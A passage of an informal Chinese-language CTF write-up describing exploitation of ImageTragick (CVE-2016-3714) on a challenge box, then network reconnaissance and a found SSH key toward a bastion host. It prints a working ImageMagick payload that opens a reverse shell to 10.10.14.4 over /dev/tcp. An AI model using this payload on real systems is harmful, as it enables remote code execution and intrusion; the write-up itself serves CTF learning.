 這讓我想到之前打ctf的時候有遇過一題，他是在白箱裡面塞一個叫做imagemagic的函式
所以我就去找了一下
發現它叫做ImageTragick
CVE-2016–3714

https://book.jorianwoltjer.com/web/imagemagick
https://imagetragick.com/

用法be like

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i >/dev/tcp/10.10.14.4/1111 0<&1 2>&1")''")'
pop graphic-context
```

![image](https://hackmd.io/_uploads/BJd2I2tzC.png)

接著就是開監聽然後上傳

![image](https://hackmd.io/_uploads/SJMMvhtGC.png)

### bastion

進去之後我發現這個好像是用anaconda建置的docker
也就是說它是個虛擬機的概念(?

![image](https://hackmd.io/_uploads/Hk4_P3KfC.png)

我在這裡發現了bastion_key 看檔案格式應該是ssh的密碼

![image](https://hackmd.io/_uploads/HJreO2KfR.png)

我先去找我們的ip 172.23.0.11
i found it from /proc/net/fib_trie
![image](https://hackmd.io/_uploads/rkPmchFMA.png)

然後在同個目錄下(跟ssh密鑰)的network
這裡可以發現，他建了兩個網路23、24

![image](https://hackmd.io/_uploads/ryIgo2KfA.png)

這張圖的來源到底是誰我找不到
但統整目前的情況很方便
我們對 Web 應用程式的請求透過 WAF 發送到連接埠 443，WAF 充當 calvin 的反向代理
但是我們利用剛剛的imagetragick技巧 waf沒有把我們擋下來
所以我們現在進來了
而從剛剛我們查ip的時候也可以看到似乎只有23的存在
那是因為24 is not live-host 應該只是管理員拿來測試忘記刪的
Than 現在我們要到bastion which i got the ssh key

![image](https://hackmd.io/_uploads/r1NVnntG0.png)
